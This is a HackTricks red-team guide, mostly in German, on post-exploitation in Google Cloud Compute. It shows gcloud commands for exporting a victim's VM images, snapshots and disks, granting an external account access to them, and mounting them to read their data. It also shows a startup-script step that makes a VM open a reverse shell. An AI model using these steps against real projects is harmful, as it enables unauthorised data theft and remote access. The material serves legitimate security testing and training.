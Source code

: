 # GCP - Compute Post Exploitation

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}

## Compute

Für weitere Informationen zu Compute und VPC (Netzwerk) überprüfen Sie:

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Bilder lokal exportieren & inspizieren

Dies würde einem Angreifer ermöglichen, **auf die Daten in bereits vorhandenen Bildern zuzugreifen** oder **neue Bilder von laufenden VMs zu erstellen** und auf deren Daten zuzugreifen, ohne Zugriff auf die laufende VM zu haben.

Es ist möglich, ein VM-Bild in einen Bucket zu exportieren und es dann herunterzuladen und lokal mit dem Befehl zu mounten:

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

Um diese Aktion auszuführen, benötigt der Angreifer möglicherweise Berechtigungen für den Speicher-Bucket und auf jeden Fall **Berechtigungen für cloudbuild**, da es der **Dienst** ist, der aufgefordert wird, den Export durchzuführen.\
Darüber hinaus müssen für das Funktionieren die Berechtigungen des codebuild SA und des compute SA privilegiert sein.\
Der cloudbuild SA `<project-id>@cloudbuild.gserviceaccount.com` benötigt:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

Und der SA `<project-id>-compute@developer.gserviceaccount.com` benötigt:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### Exportieren & Überprüfen von Snapshots & Festplatten lokal

Es ist nicht möglich, Snapshots und Festplatten direkt zu exportieren, aber es ist möglich, **einen Snapshot in eine Festplatte, eine Festplatte in ein Image** zu transformieren und gemäß der **vorherigen Sektion** dieses Image zu exportieren, um es lokal zu überprüfen.

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Überprüfen eines Images durch Erstellen einer VM

Mit dem Ziel, auf die **Daten, die in einem Image gespeichert sind** oder innerhalb einer **laufenden VM**, von wo aus ein Angreifer **ein Image erstellt hat,** zuzugreifen, ist es möglich, einem externen Konto Zugriff auf das Image zu gewähren:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
und dann eine neue VM daraus erstellen:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
Wenn Sie Ihrem externen Konto keinen Zugriff über das Image gewähren konnten, könnten Sie eine VM mit diesem Image im Projekt des Opfers starten und **die Metadaten dazu bringen, eine Reverse-Shell auszuführen**, um auf das Image zuzugreifen, indem Sie den Parameter hinzufügen:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Inspect a Snapshot/Disk attaching it to a VM

Mit dem Ziel, auf die **Daten, die auf einem Disk oder einem Snapshot gespeichert sind, zuzugreifen, könnten Sie den Snapshot in einen Disk, einen Disk in ein Image umwandeln und die vorherigen Schritte befolgen.**

Oder Sie könnten **einem externen Konto Zugriff** auf den Disk gewähren (wenn der Ausgangspunkt ein Snapshot ist, gewähren Sie Zugriff auf den Snapshot oder erstellen Sie einen Disk daraus):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**Hängen Sie die Festplatte** an eine Instanz an:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Mounten Sie die Festplatte innerhalb der VM:

1.  **SSH in die VM**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **Identifizieren Sie die Festplatte**: Sobald Sie in der VM sind, identifizieren Sie die neue Festplatte, indem Sie die Festplattengeräte auflisten. Typischerweise finden Sie sie als `/dev/sdb`, `/dev/sdc` usw.
3. **Formatieren und Mounten Sie die Festplatte** (wenn es sich um eine neue oder rohe Festplatte handelt):
*   Erstellen Sie einen Mount-Punkt:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   Mounten Sie die Festplatte:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

Wenn Sie **keinen Zugriff auf ein externes Projekt** für den Snapshot oder die Festplatte gewähren können, müssen Sie möglicherweise **diese Aktionen innerhalb einer Instanz im selben Projekt wie der Snapshot/die Festplatte** durchführen.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
